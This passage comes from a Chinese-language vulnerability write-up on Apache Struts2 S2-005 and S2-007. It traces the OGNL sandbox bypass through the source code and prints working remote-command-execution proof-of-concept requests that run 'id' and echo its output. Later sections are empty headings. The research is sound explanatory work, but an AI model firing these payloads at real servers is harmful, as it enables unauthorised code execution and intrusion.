

所以`isAccepted()`是会返回`true`的，而`isExcluded()`也返回了`true`从而导致无法执行Java方法。

但这种修复方式，不治标也不治本。虽然给Java执行方法的门上了一把锁，但却把钥匙也插在锁上了，从而有了后面的S2-005。

<a name="s2-005"></a>
## S2-005

官方漏洞公告：<br>
https://cwiki.apache.org/confluence/display/WW/S2-005

影响版本：`Struts 2.0.0 - Struts 2.1.8.1`

## 漏洞复现与分析

漏洞环境：`Struts2-2.0.12/apps/struts2-blank-2.0.12.war`

从前面对S2-003的漏洞修复部分可以知道，只要想办法让`SecurityMemberAccess#isExcluded()`方法返回`false`，就能让我们注入的OGNL表达式中的Java方法执行。而要`SecurityMemberAccess#isExcluded()`方法返回`false`，就得让`SecurityMemberAccess`的`excludeProperties`这个集合置空才行。

通过查看源码，发现`SecurityMemberAccess`对象是在`OgnlValueStack`对象被创建时，存放到其`context`属性(即该值栈的上下文对象,`OgnlContext`)中的。




所以是不是可以通过OGNL表达式`#context['memberAccess']`就能访问`SecurityMemberAccess`对象了呢？

**答案是否定的**。

通过阅读`OgnlContext`的源码发现，`OgnlContext`虽然自身实现了`Map`集合接口，并重写了`Map#put()`和`Map#get()`方法。但并没有把`SecurityMemberAccess`对象`put()`到内部`Map`集合中，而是赋值给自己的成员变量`memberAccess`中。实际上，`OgnlContext`是使用了装饰模式去扩展`Map`接口的。其内部有两个`Map`类型的成员变量：`RESERVED_KEYS`和`values`来进行实际的`Map`容器存取操作。因此我们不能通过OGNL表达式`#context['memberAccess']`来访问`SecurityMemberAccess`对象。



但是从`OgnlContext`重写`Map`的`get()`方法中，我们看到了有意思的事，就是如果当`RESERVED_KEYS`集合包含名为`_memberAccess`的key时，会返回`SecurityMemberAccess`对象。而`RESERVED_KEYS`集合中确实是包含这个key的。所以我们就可以通过OGNL表达式`#context['_memberAccess']`或`#_memberAccess`去访问到`SecurityMemberAccess`对象。


因此简单执行命令的PoC如下：
```
/xxx.action?
(a)(%5cu0023_memberAccess.excludeProperties%5cu003d@java.util.Collections@EMPTY_SET)
&(b)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)
&(c)(%5cu0023ret%5cu003d@java.lang.Runtime@getRuntime().exec('touch%5cu0020/tmp/success2'))
```

### 可回显PoC
与前面漏洞不同的是，本次漏洞的回显PoC无法向之前的方式去获取`com.opensymphony.xwork2.dispatcher.HttpServletResponse`对象来实现。经调试发现，因为当前`context`对象是在一个新的`OgnlValueStack`值栈对象(即`newStack`)里的，其中并没有这个键值，如下图：


因为这个里的`newStack`是由原来的`stack`新建的，阅读`OgnlValueStack(ValueStack)`构造方法的实现可知，新建的`newStack`并不会拷贝`stack`的`context`上下文对象的键值对。所以这里换一种方式，使用静态方法`ServletActionContext#getResponse()`去获取`HttpServletResponse`对象，实际上它获取的就是原来的`stack`值栈结构中的`context`上下文对象里的`com.opensymphony.xwork2.dispatcher.HttpServletResponse`。

因此构造可回显PoC如下：

```
/xxx.action?
(a)(%5cu0023_memberAccess.excludeProperties%5cu003d@java.util.Collections@EMPTY_SET)
&(b)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)
&(c)(%5cu0023ret%5cu003d@java.lang.Runtime@getRuntime().exec('id'))
&(d)(%5cu0023dis%5cu003dnew%5cu0020java.io.BufferedReader(new%5cu0020java.io.InputStreamReader(%5cu0023ret.getInputStream())))
&(e)(%5cu0023res%5cu003dnew%5cu0020char[20000])
&(f)(%5cu0023dis.read(%5cu0023res))
&(g)(%5cu0023writer%5cu003d@org.apache.struts2.ServletActionContext@getResponse().getWriter())
&(h)(%5cu0023writer.println(new%5cu0020java.lang.String(%5cu0023res)))
&(i)(%5cu0023writer.flush())
&(j)(%5cu0023writer.close())
```


后来用Struts2 `2.1.8.1`版本也调了下，发现代码有细微差别。上面的PoC无效。不过实现思路是一样的，改一下即可：

```
/xxx.action?
(a)(%5cu0023_memberAccess.allowStaticMethodAccess%5cu003dtrue)
&(b)(%5cu0023context['xwork.MethodAccessor.denyMethodExecution']%5cu003dfalse)
&(c)(%5cu0023ret%5cu003d@java.lang.Runtime@getRuntime().exec('id'))
&(d)(%5cu0023dis%5cu003dnew%5cu0020java.io.BufferedReader(new%5cu0020java.io.InputStreamReader(%5cu0023ret.getInputStream())))
&(e)(%5cu0023res%5cu003dnew%5cu0020char[20000])
&(f)(%5cu0023dis.read(%5cu0023res))
&(g)(%5cu0023writer%5cu003d@org.apache.struts2.ServletActionContext@getResponse().getWriter())
&(h)(%5cu0023writer.println(new%5cu0020java.lang.String(%5cu0023res)))
&(i)(%5cu0023writer.flush())
&(j)(%5cu0023writer.close())
```



## 漏洞修复

在Struts `2.2.1`版本中，使用了正则表达式匹配白名单字符的方式去校验请求url的参数：


<a name="s2-007"></a>
## S2-007

官方漏洞公告：<br>
https://cwiki.apache.org/confluence/display/WW/S2-007

影响版本：`Struts 2.0.0 - Struts 2.2.3`

## 漏洞复现与分析

从漏洞公告可获悉该漏洞出现的场景和PoC。

这里使用Struts2 `2.2.3`自带的示例应用`showcase`进行漏洞复现，找到校验器Validate部分，如下：


如上图，在`Integer Validator Field`一栏的输入框中，输入PoC `<' + #application + '>`，提交后，由于没有通过应用程序中定义的整数校验器的校验，所以将输入中包含的OGNL表达式进行解析，并将解析结果进行返回。



从漏洞公告中可获悉漏洞出现在struts2的默认拦截器`com.opensymphony.xwork2.interceptor.ConversionErrorInterceptor`的`getOverrideExpr()`方法中：


如上图，该方法返回`"'" + value + "'"`。结合给出的PoC，很容易可猜想到，该方法会将文本输入框中提交过来的字符串用单引号`'`包裹上，原因应该是为了防止OGNL表达式的执行。很明显，可构造输入将这里的单引号`'`左右都进行闭合，便可以绕过防护。

>在调试分析该漏洞前，建议先了解下struts2的主体架构和运行主线，关于这个可参考陆舟编著的《Struts2技术内幕》第七、第八章。
>
>另外，还需要了解一下struts2的校验器框架的原理。关于这个可参考链接：https://blog.csdn.net/Mark_LQ/article/details/49837507

下面来实际调试分析一下。

struts2提供的校验器框架，也是通过拦截器去实现的。按照拦截器的先后顺序，下面会提及最后的四个：


1. `params`对应的类：`com.opensymphony.xwork2.interceptor.ParametersInterceptor`
2. `conversionError`对应的类：`org.apache.struts2.interceptor.StrutsConversionErrorInterceptor`
3. `validation`对应的类：`org.apache.struts2.interceptor.validation.AnnotationValidationInterceptor`
4. `workflow`对应的类：`com.opensymphony.xwork2.interceptor.DefaultWorkflowInterceptor`

表单提交后，会先到拦截器`ParametersInterceptor#doIntercept()`进行处理，会把参数存到当前值栈ValueStack的上下文对象context中，然后再把执行的控制权移交下一个拦截器`StrutsConversionErrorInterceptor`去执行。


`StrutsConversionErrorInterceptor`从`ActionContext`中将转化类型时发生的错误信息添加到校验器对应的Action对象的FieldError中，在校验时候经常被使用到来在页面中显示类型转化错误的信息。


另外，还会将类型转化失败的参数值传入`getOverrideExpr()`方法进行处理，处理后再通过回调的方式保存到当前值栈ValueStack对象的属性`overrides`中，该属性是一个`Map`集合。





问题就出现在这个`getOverrideExpr()`，这里只是简单的用单引号`'`包裹文本框输入。所以输入的时候添加单引号`'`将这里的单引号闭合即可让OGNL表达式跳出单引号的包裹。

拦截器`StrutsConversionErrorInterceptor`处理完后就将执行的控制权移交给下一个拦截器`AnnotationValidationInterceptor`。

`AnnotationValidationInterceptor`的职责就是获取应用程序定义的校验器(validator)，并使用这些校验器对用户输入进行校验，结果是校验失败。校验结束后，将执行的控制权移交给最后一个拦截器`DefaultWorkflowInterceptor`。

由于在`AnnotationValidationInterceptor`中使用校验器校验用户输入的结果是校验失败，所以在`DefaultWorkflowInterceptor`中就根据该结果，返回字符串`"input"`，产生的结果就是返回`input`视图页面，从而中止了整个执行栈的调度执行。

接着就是构造`input`的视图页面，它是JSP页面，所以后面的漏洞触发流程也就跟`S2-001`差不多了，调用栈如下：
```
TextFieldTag#doEndTag()
  ComponentTagSupport#doEndTag()
    UIBean#end()
      UIBean#evaluateParams()
        Component#findValue()
          TextParseUtil#translateVariables()
            OgnlValueStack#findValue()
              OgnlValueStack#tryFindValueWhenExpressionIsNotNull()
                OgnlValueStack#tryFindValue()
                  OgnlValueStack#lookupForOverrides()
                  OgnlValueStack#getValue()
```

其中，在`OgnlValueStack#lookupForOverrides()`方法中会取出当前值栈的`overrides`属性，该属性中存放了前面类型转化失败的入参，也就是文本框中输入的内容。取出来后进行OGNL表达式计算。

至此，该漏洞的原理分析完了。

### 可回显PoC

```
' + (
#_memberAccess.allowStaticMethodAccess=true,
#context['xwork.MethodAccessor.denyMethodExecution']=false,
#ret=@java.lang.Runtime@getRuntime().exec('id'),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#ret.getInputStream())),
#res=new char[20000],
#br.read(#res),
#writer=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),
#writer.println(new java.lang.String(#res)),
#writer.flush(),
#writer.close()
) + '
```

## 漏洞修复


<a name="s2-008"></a>
## S2-008

## 漏洞复现与分析


### 可回显PoC


## 漏洞修复


<a name="s2-009"></a>
## S2-009

## 漏洞复现与分析


### 可回显PoC


## 漏洞修复


<a name="s2-012"></a>
## S2-012

## 漏洞复现与分析


### 可回显PoC


## 漏洞修复


<a name="s2-013"></a>
## S2-013

## 漏洞复现与分析


### 可回显PoC


## 漏洞修复


<a name="s2-015"></a>
## S2-015

## 漏洞复现与分析


### 可回显PoC


## 漏洞修复

<a name="s2-016"></a>
## S2-016

## 漏洞复现与分析


### 可回显PoC


## 漏洞修复

<a name="s2-032"></a>
## S2-032

## 漏洞复现与分析


### 可回显PoC


## 漏洞修复


<a name="s2-045"></a>
## S2-045

## 漏洞复现与分析


### 可回显PoC


## 漏洞修复


<a name="s2-052"></a>
## S2-052

## 漏洞复现与分析


## 可回显PoC


## 漏洞修复


<a name="s2-053"></a>
## S2-053

## 漏洞复现与分析


### 可回显PoC


## 漏洞修复


<a name="s2-057"></a>
## S2-057

## 漏洞复现与分析


## 可回显PoC


### 漏洞修复


<a name="s2-059"></a>
## S2-059

## 漏洞复现与分析


## 可回显PoC


## 漏洞修复


<a name="s2-061"></a>
## S2-061

## 漏洞复现与分析


## 可回显PoC


## 漏洞修复

